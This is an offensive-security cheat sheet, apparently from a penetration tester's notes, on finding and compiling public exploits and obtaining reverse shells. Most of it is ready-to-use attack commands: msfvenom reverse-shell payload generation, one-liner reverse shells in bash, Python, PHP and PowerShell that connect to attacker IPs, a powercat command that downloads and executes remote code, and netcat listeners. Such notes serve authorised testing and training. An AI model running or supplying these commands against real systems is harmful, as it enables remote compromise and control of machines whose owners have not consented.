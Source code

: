 # 💣 Exploitation

## Locating Public Exploits

```shell
# search for an exploit
searchsploit <name>

# show the exploit
searchsploit -x <id>

# copy the exploit to the current folder
searchsploit -m <id>

# NSE
locate .nse | grep <name>
nmap --script-help <name>
```

### Compiling Exploits

```shell
# for windows
sudo apt install mingw-w64
# 64-bit and 32-bit cpp files
x86_64-w64-mingw32-g++ myprogram.cpp -o myprogram.exe
i686-w64-mingw32-g++ myprogram.cpp -o myprogram.exe
# # 64-bit and 32-bit c files
x86_64-w64-mingw32-gcc myprogram.c -o myprogram.exe
i686-w64-mingw32-gcc myprogram.c -o myprogram.exe

# for linux
sudo apt install gcc g++ make
gcc myprogram.c -o myprogram
g++ myprogram.cpp -o myprogram
```

## Reverse Shells

!!! tip
    Beware of reflected ports!

> [revshells.com](https://revshells.com)

### MSFVenom

```shell
# stageless x64 shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o reverse.exe
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf -o reverse.elf
# meterpreter staged shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o reverse.exe
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf -o reverse.elf


msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```

### One liners

```shell
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1

python -c 'import 
socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'

<?php echo shell_exec('bash -i >& /dev/tcp/10.11.0.106/443 0>&1');?>

# powershell
$client = New-Object System.Net.Sockets.TCPClient("192.168.45.230",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

### Upgrade a Reverse Shell into a full TTY

Spawn a TTY Shell

```shell
# using Python
python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/sh")'

# if Python is not available
/bin/bash -i
script /dev/null -c bash
```

Background the shell and fix settings

```shell
# CTRL+Z
stty raw -echo; fg
```

Set terminal env variables

```shell
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 40 columns 100
```

### Better listener with rlwrap

```shell
rlwrap nc -lnvp 4444
```

### Penelope

If the fully interactive shell can't be achieved and it's impossible to edit a file, [penelope](https://github.com/brightio/penelope) can hep.

```shell
python penelope.py 80
```

### Powercat

> <https://github.com/besimorhino/powercat>

```shell
# load the function from .ps1 file:
.\powercat.ps1
# load the function from URL and connect back to listener:
IEX (New-Object System.Net.Webclient).DownloadString('http://<ip>:<port>/powercat.ps1');powercat -c <ip> -p <port> -e cmd
```

### Check Connectivity

```shell
# in kali
sudo tcpdump -i tun0 icmp

# from the target
ping -c1 <kali_ip>
```
